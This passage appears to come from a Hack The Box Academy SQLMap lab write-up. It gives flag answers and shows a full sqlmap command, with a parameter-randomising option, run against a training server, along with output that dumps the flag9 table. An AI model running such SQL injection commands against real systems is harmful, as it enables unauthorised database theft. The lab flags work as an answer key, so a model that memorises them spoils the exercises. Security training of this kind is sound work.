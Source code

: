**Answer**

```
HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}
```

#### Question #11

**Question**

What's the contents of table `flag9`? (Case #9)

![Firefox - Case9 Unique ID](./assets/screenshots/sqlmap_essentials_firefox_case9_unique_id.png)

```javascript
--batch -T flag9 --dump --no-cast --randomize='uid'
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case9.php?id=1*&uid=1531459971' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case9.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag9 --dump --no-cast --randomize='uid'

[SNIP]

[08:45:51] [INFO] fetching current database
[08:45:51] [INFO] fetching columns for table 'flag9' in database 'testdb'
[08:45:52] [INFO] fetching entries for table 'flag9' in database 'testdb'
Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+

[SNIP]
```
